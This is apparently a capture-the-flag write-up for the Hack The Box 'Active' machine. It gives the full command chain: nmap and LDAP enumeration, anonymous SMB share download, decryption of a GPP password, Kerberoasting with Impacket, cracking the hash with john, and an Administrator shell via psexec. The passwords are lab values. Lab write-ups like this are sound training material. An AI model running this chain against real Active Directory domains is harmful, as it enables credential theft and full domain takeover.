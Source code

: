 # Initial Recon
## Port Scans

### All Ports

```shell
nmap -p- -T4 --min-rate 10000 -oA nmap/all 10.129.230.20
```

![](Assets/Pasted%20image%2020240529200240.png)

### Port Versions Scan

```shell
nmap -sCV -O -T4 --min-rate 10000 -oA nmap/versions -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49169,49173,49174 10.129.230.20
```

![](Pasted%20image%2020240529200440.png)
## Anonymous LDAP Enumeration

### Base Active Directory Data

```shell
ldapsearch -H ldap://10.129.230.20 -x -s base namingcontexts
```

![](Pasted%20image%2020240529162820.png)

### All Active User Enumeration

Attempting to perform an anonymous `ldapsearch` for active users in the directory results in bind error likely due to insufficient rights.

```shell
ldapsearch -x -H 'ldap://10.129.230.20' -b "DC=active,DC=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))"
```

![](Pasted%20image%2020240529165917.png)

## Anonymous SMB Enumeration - Port 445

```shell
smbclient -N -L  \\\\10.129.230.20
```

![](Pasted%20image%2020240529132539.png)

### SMB Data Exfiltration

```shell
smbclient -N \\\\10.129.230.20\\Replication
```

#### SMB Commands

```shell
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```

![](Pasted%20image%2020240529133954.png)

### SMB Write Enumeration

We then check if we have write access to the SMB share.

```shell
echo test > test.txt
```

#### SMB commands

```
smb: \> put test.txt
```

We get access denied attempting to write our test file to the share.

![](Pasted%20image%2020240529134308.png)

# Initial Foothold

## Password Disclosure

Recursively searching the downloaded files for the term "pass" reveals a `GPP` credential in a `Groups.xml` file.

```shell
grep -arin pass
```

![](Pasted%20image%2020240529134850.png)

## Password Attack

Using the `gpp-decrypt` tool on Kali, we can decrypt the `cpassword` encrypted string to plain text. 

```shell
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'

GPPstillStandingStrong2k18
```

We crack the password and from the previous password disclosure, we can also see that there is a `userName` of `active.htb\SVC_TGS`. Test the credentials using `crackmapexec`:

```shell
crackmapexec smb 10.129.230.20 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
```

![](Pasted%20image%2020240529140318.png)

# Authenticated Enumeration

## Lateral Movement

![](Pasted%20image%2020240529140425.png)

## Authenticated SMB Data Exfiltration

```shell
smbclient \\\\10.129.230.20\\Users -U SVC_TGS
```

Enter the exposed credentials as the password when prompted.

### SMB Client Commands

```shell
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```

![](Pasted%20image%2020240529140609.png)

### User Flag

From the SMB `mget *` output, we can see that there is a `user.txt` flag at `\SVC_TGS\Desktop\user.txt` on the SMB share. We can simply print out the contents of the file on our target machine:

```shell
cat SVC_TGS/Desktop/user.txt
```

![](Pasted%20image%2020240529204743.png)
## Authenticated LDAP Enumeration

```shell
ldapsearch -x -H 'ldap://10.129.230.20' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "DC=active,DC=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"
```

![](Pasted%20image%2020240529170618.png)

We can add to the LDAP filter by looking for only accounts with a `servicePrincipalName`:

```shell
ldapsearch -x -H 'ldap://10.129.230.20' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "DC=active,DC=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))"
```

![](Pasted%20image%2020240529171125.png)

This confirms that it is possible that the machine is vulnerable to a Kerberoast attack.

# Privilege Escalation

First we request `SPNs` using Impackets `GetUserSPNs.py` script:

```shell
impacket-GetUserSPNs -target-domain active.htb -request -dc-host active.htb active.htb/SVC_TGS:GPPstillStandingStrong2k18 -outputfile spn.hashes
```

![](Pasted%20image%2020240529171229.png)

## Password Crack

```shell
john spn.hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

![](Pasted%20image%2020240529171425.png)

```
Ticketmaster1968
```

We can now connect to the machine using the `Administrator` credentials using Impacket's `Psexec.py`:

```shell
impacket-psexec 'active.htb'/'Administrator':'Ticketmaster1968'@'active.htb'
```

![](Pasted%20image%2020240529150701.png)
